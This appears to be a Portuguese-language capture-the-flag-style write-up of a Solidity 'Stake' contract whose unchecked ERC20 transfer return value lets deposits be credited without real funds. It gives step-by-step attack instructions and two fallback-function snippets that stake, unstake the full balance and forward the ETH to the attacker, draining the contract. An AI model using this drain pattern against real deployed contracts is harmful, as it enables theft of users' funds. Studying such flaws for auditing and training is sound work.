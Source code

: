 Embora este exemplo sejá bem simples, podemos esquecer de checar o retorno `success bool` quando realizamos chamadas externas, neste caso de `transfer` para saber se a mesma ocorreu da forma que deveria, como [este](https://github.com/crytic/slither/wiki/Detector-Documentation#unchecked-transfer)

Um exemplo de um possível ataque é descrito abaixo.

1) Use `ERC(Stake.WETH()).approve(address(Stake), 1 ether)` para determinar de o contrato pode transferir os tokens que você "possui"

2) Agora use a função `Stake.StakeWETH(uint256 amount)` com qualquer valor para amount que seja maior que o `Stake.balance` e veja seus `UserStake` points subirem sem haver transferido quaiquer fundos e extraia através de `Unstake(uint256 amount)` com amount igual a `Stake.balance` e veja o ETH indo para sua carteira, por exemplo:

```
function () payable {
  ERC20(Stake.WETH).approve(stakeAddress, 1000000000000000000);
  Stake.StakeWETH(1000000000000000000);
  Stake.Unstake(Stake.balance);
}
```

3) Nesse cenário, `UserStake[attackerContractAddress]` será maior que o valor transferido ao contrato, permitindo que a função `Unstake(uint256 amount)` seja chamada, adicione também uma transferência dos fundos para a sua wallet, assim os fundos irão para a sua wallet e o contrato será drenado, por exemplo:

```
function () payable {
  ERC20(Stake.WETH).approve(stakeAddress, 1000000000000000000);
  Stake.StakeWETH(1000000000000000000);
  Stake.Unstake(Stake.balance);
  (bool success, bytes memory return) = payable(msg.sender).call{value: address(this).balance}("")
  require (success)
}
```